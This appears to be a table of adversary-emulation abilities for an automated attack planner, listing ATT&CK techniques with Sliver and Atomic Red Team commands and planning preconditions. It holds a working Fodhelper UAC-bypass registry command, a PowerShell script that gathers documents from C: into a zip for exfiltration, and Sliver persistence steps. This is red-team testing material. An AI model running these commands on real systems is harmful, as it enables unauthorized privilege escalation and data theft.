 | f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |
| 2e8f1a9c-0b5e-4a7c-b6d4-9a8b2d3c5f1e | Create Directory | \['T1106'\] | Sliver | \['windows', 'linux'\] | \['Persistence'\] | \['File System Permissions Modification'\] | The `mkdir` command creates a new directory on the target system. | {'executor': 'Sliver Executor', 'command': 'mkdir (#{remote_path},#{SessionID})'} | {'remote_path': {'description': 'Full path of the directory to create'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?target - host)', '(os_linux ?target - host)'\]}, '(sliver_session ?executorID - executor ?target - host)'\] | \['(dir_exists ?path - path ?dir - dir ?target - host)'\] |
| a57fbe4b-3440-452a-88a7-943531ac872a | Zip a Folder with PowerShell for Staging in Temp | \['T1074.001'\] | ART | \['windows'\] | \['Collection'\] | \['Data Staged: Local Data Staging'\] | Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip<br>was placed in the temp directory.<br> | {'executor': 'Powershell Executor', 'command': 'Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force\n'} | {'output_file': {'description': 'Location to save zipped file or folder', 'type': 'path', 'default': None}, 'input_file': {'description': 'Location of file or folder to zip', 'type': 'path', 'default': None}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(dir_exists ?input_file - path ?dir - dir ?target - host)'\] | \['(dir_data_saved ?dir - dir ?file - file)', '(file_exists ?output_file - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| d3d9af44-b8ad-4375-8b0a-4bff4b7e419c | Search files of interest and save them to a single zip file (Windows) | \['T1005'\] | ART | \['windows'\] | \['Collection'\] | \['Data from Local System'\] | This test searches for files of certain extensions and saves them to a single zip file prior to extraction.                              <br> | {'executor': 'Powershell Executor', 'command': '$startingDirectory = "C:"\n$outputZip = "#{output_zip_folder_path}"\n$fileExtensionsString = ".doc, .docx, .txt" \n$fileExtensions = $fileExtensionsString -split ", "\n\nNew-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null\n\nFunction Search-Files {\n  param (\n    \[string\]$directory\n  )\n  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {\n    $fileExtensions -contains $_.Extension.ToLower()\n  }\n  return $files\n}\n\n$foundFiles = Search-Files -directory $startingDirectory\nif ($foundFiles.Count -gt 0) {\n  $foundFilePaths = $foundFiles.FullName\n  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\\data.zip"\n\n  Write-Host "Zip file created: $outputZip\\data.zip"\n  } else {\n      Write-Host "No files found with the specified extensions."\n  }\n'} | {'output_zip_folder_path': {'description': 'Path to directory for saving the generated zip file', 'type': 'Path', 'default': 'PathToAtomicsFolder\\..\\ExternalPayloads\\T1005'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)'\] | \['(certain_extension_data_saved ?file - file ?target - host)', '(file_exists ?output_zip_folder_path - path ?file - file ?target - host)', '(zip_file ?file - file)'\] |
| 58f641ea-12e3-499a-b684-44dee46bd182 | Bypass UAC using Fodhelper | \['T1548.002'\] | ART | \['windows'\] | \['Defense Evasion', 'Privilege Escalation'\] | \['Abuse Elevation Control Mechanism: Bypass User Account Control'\] | Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.<br>Upon execution, "The operation completed successfully." will be shown twice and command prompt will be opened.<br> | {'executor': 'Command Prompt Executor', 'command': 'reg.exe add hkcu\\software\\classes\\ms-settings\\shell\\open\\command /ve /d "#{executable_binary}" /f\nreg.exe add hkcu\\software\\classes\\ms-settings\\shell\\open\\command /v "DelegateExecute" /f\nfodhelper.exe\n'} | {'executable_binary': {'description': 'Binary to execute with UAC Bypass', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?executable_binary - path ?file - file ?target - host)', {'operator': 'or', 'operands': \['(exe_file ?file - file)'\]}\] | \['(file_executed_as_root ?file - file ?target - host)'\] |
| 1f401bbe-de24-41d2-8e34-d026e25bfb94 | Execute a Sliver Implant Payload | \['T1071.001'\] | Sliver | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | Executing a Sliver implant payload will establish a Sliver session.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?t - host)', '(file_payload ?p - payload ?f - file)', '(file_executed ?f - file ?t - host)', '(unallocated ?s - executor)'\] | \['(sliver_session ?s - executor ?t - host)', '~(unallocated ?s - executor)', {'operator': 'When', 'params': {'condition': '(file_executed_as_root ?f - file ?t - host)', 'effect': '(elevated_executor ?s - executor)'}}\] |